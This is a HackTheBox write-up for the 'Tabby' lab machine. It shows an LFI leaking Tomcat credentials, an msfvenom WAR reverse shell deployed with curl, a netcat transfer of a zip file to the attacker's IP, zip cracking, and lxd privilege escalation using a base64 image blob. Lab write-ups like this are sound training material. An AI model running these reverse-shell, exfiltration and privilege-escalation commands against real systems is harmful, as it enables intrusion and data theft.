# Tabby -- HackTheBox (write-up)

**Difficulty:** Easy
**Box:** Tabby (HackTheBox)
**Author:** dkrxhn
**Date:** 2025-03-08

---

## TL;DR

### LFI leaked Tomcat creds. Deployed WAR reverse shell via manager-script role. Cracked zip password, reused for user pivot. Privesc via lxd group.
---
## Target info

- Host: `10.129.207.244`
- Services discovered: `80/tcp (http)`, `8080/tcp (tomcat)`
---
## Enumeration





Used view-source to read cleaner output:



Nothing at `home/ash/.ssh/id_rsa`.

---
## Port 8080 - Tomcat



Users defined in `/etc/tomcat9/tomcat-users.xml`. LFI to that path initially showed nothing.





Found: `tomcat:$3cureP4s5w0rd123!`

Creds failed for manager webapp but worked for host-manager webapp. The config also listed the `manager-script` role, which allows text-based commands at `/manager/text`.



---
## Shell

Generated WAR reverse shell and deployed via curl:

```bash
msfvenom -p java/shell_reverse_tcp lhost=10.10.14.194 lport=443 -f war -o rev.10.10.14.194-443.war
```

```bash
curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.129.207.244:8080/manager/text/deploy?path=/dank --upload-file rev.10.10.14.194-443.war
```



Triggered with:

```bash
curl http://10.129.207.244:8080/dank1
```



---
## Lateral movement

Found a backup zip at `/var/www/html/files`. Transferred it:

```bash
# on kali
nc -lnvp 443 > 16162020_backup.zip

# on target
md5sum 16162020_backup.zip
cat 16162020_backup.zip | nc 10.10.14.191 443

# on kali - verify
md5sum 16162020_backup.zip
```

Cracked the zip:

```bash
zip2john 16162020_backup.zip > hash.txt
```



Nothing useful in the archive, but ash reused the password:

```bash
su ash
```

---
## Privilege escalation

ash is in the lxd group. Used a base64-encoded tar archive to create a privileged container:

```bash
echo QlpoOTFBWSZTWaxzK54ABPR/p86QAEBoA//QAA3voP/v3+AACAAEgACQAIAIQAK8KAKCGURPUPJGRp6gNAAAAGgeoA5gE0wCZDAAEwTAAADmATTAJkMAATBMAAAEiIIEp5CepmQmSNNqeoafqZTxQ00HtU9EC9/dr7/586W+tl+zW5or5/vSkzToXUxptsDiZIE17U20gexCSAp1Z9b9+MnY7TS1KUmZjspN0MQ23dsPcIFWwEtQMbTa3JGLHE0olggWQgXSgTSQoSEHl4PZ7N0+FtnTigWSAWkA+WPkw40ggZVvYfaxI3IgBhip9pfFZV5Lm4lCBExydrO+DGwFGsZbYRdsmZxwDUTdlla0y27s5Euzp+Ec4hAt+2AQL58OHZEcPFHieKvHnfyU/EEC07m9ka56FyQh/LsrzVNsIkYLvayQzNAnigX0venhCMc9XRpFEVYJ0wRpKrjabiC9ZAiXaHObAY6oBiFdpBlggUJVMLNKLRQpDoGDIwfle01yQqWxwrKE5aMWOglhlUQQUit6VogV2cD01i0xysiYbzerOUWyrpCAvE41pCFYVoRPj/B28wSZUy/TaUHYx9GkfEYg9mcAilQ+nPCBfgZ5fl3GuPmfUOB3sbFm6/bRA0nXChku7aaN+AueYzqhKOKiBPjLlAAvxBAjAmSJWD5AqhLv/fWja66s7omu/ZTHcC24QJ83NrM67KACLACNUcnJjTTHCCDUIUJtOtN+7rQL+kCm4+U9Wj19YXFhxaXVt6Ph1ALRKOV9Xb7Sm68oF7nhyvegWjELKFH3XiWstVNGgTQTWoCjDnpXh9+/JXxIg4i8mvNobXGIXbmrGeOvXE8pou6wdqSD/F3JFOFCQrHMrng= | base64 -d > bob.tar.bz2
```





---
## Lessons & takeaways

- Tomcat `manager-script` role enables deployment via `/manager/text` even without GUI manager access
- Always check for password reuse across services and local users
- lxd group membership = trivial root via privileged container
---
